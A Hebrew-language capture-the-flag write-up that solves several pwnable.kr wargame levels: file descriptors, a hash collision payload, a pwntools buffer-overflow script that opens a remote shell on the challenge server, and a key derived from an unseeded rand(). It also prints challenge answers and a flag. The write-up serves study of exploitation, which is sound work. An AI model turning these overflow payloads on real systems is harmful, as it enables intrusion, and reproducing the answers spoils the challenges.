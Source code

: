 # pwnable.kr
## fd
### מה זה fd?

fd הוא קיצור של file descriptor.
<br/>
fd מתאר קובץ על ידי מספר חיובי שלם במערכת ההפעלה המתייחס לתיאור הקובץ
<br/>
למשל:
```bash
standard input (stdin)   is '0'
standard output (stdout) is '1'
standard error (stderr)  is '2'
```
<br/>

![Capture1](https://user-images.githubusercontent.com/67608539/144753581-4a7b1d05-2376-4fff-bc07-5398d6a407e8.PNG)
<br/><br/><br/><br/>


נעתיק את קוד ה 'ssh' לטרמינל של לינוקס, אני משתמש ב- 'ubuntu-20.04.3'
ומיד לאחר מכן את הסיסמא- 'guest' כפי שמצויין.

![Capture2](https://user-images.githubusercontent.com/67608539/144739990-ee683c1e-22fd-4d91-bca2-c34611f46f69.PNG)
<br/><br/><br/><br/>

פעולה ראשונה שנעשה היא לבדוק אילו קבצים נמצאים, נכתוב את הפקודה 'ls' על מנת לראות אילו ספריות וקבצים יש במיקום

![Capture3](https://user-images.githubusercontent.com/67608539/144740069-b1909b2c-b7f3-4f22-ac1e-006e64dcfc32.PNG)

<br/><br/><br/><br/>
ישנם שלושה קבצים, אחד מהם קובץ C.
המטרה שלנו להגיע ל 'flag' מסויים, 
ניתן לראות שיש קובץ 'flag' ננסה לראות מה יש בו באמצעות הפקודה 'cat' 
על מנת לראות את תוכנו של הקובץ
![Capture9](https://user-images.githubusercontent.com/67608539/144740230-027723f7-953c-4d1d-9fe3-896ceb65cef2.PNG)

```bash
cat: flag: permission denied 
```
אין לנו מספיק הרשאות כדי להיכנס לקובץ.
<br/><br/><br/><br/>

ננסה להריץ את הפקודה 'cat' על הקובץ 'fd.c'
![Capture4](https://user-images.githubusercontent.com/67608539/144740294-e9bb5014-e7b2-436d-bee1-efee4873d38f.PNG)

ניתן לראות שהתוכנית אמורה לקבל ארגומנט כלשהו, ננסה להריץ מספר ניסיונות.
```c
int main(int argc, char* argv[], char* envp[])
```
כאשר לא מזינים ארגומנט כלשהו, נקבל הודעה שאמור להיות ארגומנט.

![Capture5](https://user-images.githubusercontent.com/67608539/144743474-d17bbbcc-886f-4257-8ee4-aacd55a227ef.PNG)
```c
if(argc<2){
        printf("pass argv[1] a number\n");
        return 0;
        }
```

ננסה שנית אך הפעם נזין ארגומנט כלשהו

![Capture6](https://user-images.githubusercontent.com/67608539/144743499-c5ba09c1-913d-4d32-9ee9-f0b84250bd0c.PNG)

ניתן לראות שאנחנו מקבלים הודעה שונה מהקודמת.

נסתכל על השורה הזאת בקוד-
```bash
int fd = atoi( argv[1] ) - 0x1234;
```

 נמיר את '0x1234' למספר דצימלי.
 נקבל את המספר 4660.
 נשים כארגומנט את המספר 4660 כך שפעולת החיסור תיתן לנו-0.
 ```bash
 fd = 0; 
 ```
 
 ניתן לראות שבניגוד לניסיונות הקדומים, כאן אנו מקבלים אופציה לקלט 
 ![Capture7](https://user-images.githubusercontent.com/67608539/144743866-4a3408b4-4db3-4c46-933a-7f766575327a.PNG)
 
 ננסה להזין את המילה שמושוואת בתנאי- '"LETMEWIN"'
![Capture8](https://user-images.githubusercontent.com/67608539/144743874-1c2d02e7-bb97-494a-8d94-df4b9aea573a.PNG)


הגענו לפיתרון!
 ```bash
flag- “ mommy! I think I know what a file descriptor is!! ”
```



---

<br/><br/>
חשוב להבין מקטע הקוד מה הם הפונקציות- read ו system

```bash
read() attempts to read up to count bytes from file descriptor fd
into the buffer starting at buf.
```
[להמשך קריאה-read](https://man7.org/linux/man-pages/man2/read.2.html)

```bash
system() used to pass the commands that can be executed in the command processor
or the terminal of the operating system
```
[להמשך קריאה-system](https://man7.org/linux/man-pages/man3/system.3.html)

<br/><br/><br/><br/><br/><br/><br/>
## collison
<br/><br/>
```bash
0x21DD09EC -> 568134124
4*5= 20; 20 bytes, 5 of 4 bytes.
568134124/4 = ~113626824
568134124- (113626824*4) = 113626828

dec-
113626824  113626824  113626824  113626824  113626828

hex-
0x6C5CEC8 0x6C5CEC8 0x6C5CEC8 0x6C5CEC8 0x6C5CECC

`python -c 'print ("\xc8\xce\xc5\x06" * 4 + "\xcc\xce\xc5\x06")'`
```

<br/><br/><br/><br/><br/><br/><br/>
## bof
<br/><br/>

```python 
from pwn import *

shell = remote("pwnable.kr", 9000)
text = 'A' * 52 + '\xbe\xba\xfe\xca'

shell.sendline(text)
shell.interactive()

#ignore - BytesWarning
#type ls
#see flag
# type cat flag
```

## random

```c
#include <stdio.h>

int main(){
	unsigned int random;
	random = rand();	// random value!

	unsigned int key=0;
	scanf("%d", &key);

	if( (key ^ random) == 0xdeadbeef ){
		printf("Good!\n");
		system("/bin/cat flag");
		return 0;
	}

	printf("Wrong, maybe you should try 2^32 cases.\n");
	return 0;
}
```
<br/><br/>
אין ``seed`` כלומר הערך אינו משתנה
<br/>
``0xdeadbeef = 3735928559``
``key ^ random = 3735928559``
<br/>
נריץ את הפונ ונדפיס את הערך של random 
``random = 1804289383``
<br /><br />
``key ^ 1804289383 = 3735928559 ``
<br />
``3735928559 ^ 1804289383 = key ``
<br /><br />
``key = 3039230856``


